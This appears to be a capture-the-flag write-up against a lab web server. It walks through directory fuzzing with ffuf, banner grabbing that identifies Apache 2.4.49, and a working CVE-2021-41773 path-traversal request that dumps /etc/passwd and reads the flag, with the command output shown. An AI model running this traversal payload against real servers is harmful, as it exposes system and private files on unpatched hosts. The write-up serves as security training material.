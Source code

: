 # Web End-to-End Attack Walker

Accessing the base URL returned a default Apache page:

```html
<html><body><h1>It works!</h1></body></html>
```

No visible routes or links in the HTML source.

Directory Fuzzing with ffuf: We ran enumeration using SecLists/Discovery/Web-Content/common.txt:

```bash
ffuf -u http://ctf-18.security.cs.pub.ro:8081/FUZZ -w ~/SecLists/Discovery/Web-Content/common.txt -fs 20 -t 40
```

**Results:**

```
yaml
Copy
Edit
.htaccess    [Status: 403, Size: 199]
.htpasswd    [Status: 403, Size: 199]
.hta         [Status: 403, Size: 199]
index.html   [Status: 200, Size: 45]
```

- .ht* files were forbidden.
- /index.html showed the default Apache "It works!" page.

No admin panels, APIs, or other content were found.

Using HTTP headers:

```bash
curl -I http://ctf-18.security.cs.pub.ro:8081/
```

Revealed the server was running: **Apache/2.4.49 (Unix)**. This version is vulnerable to:

- Path Traversal: CVE-2021-41773
- Potential RCE (if mod_cgi is enabled)

Tested file disclosure via path traversal: `curl --path-as-is "http://ctf-18.security.cs.pub.ro:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"`. Successfully dumped ***/etc/passwd*** content:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

We then tested common CTF flag locations and found it at: `curl --path-as-is "http://ctf-18.security.cs.pub.ro:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/home/ctf/flag.txt"`

Flag: **SSS{p4th_tr4v3rs4l_3v3rywh3r3}**
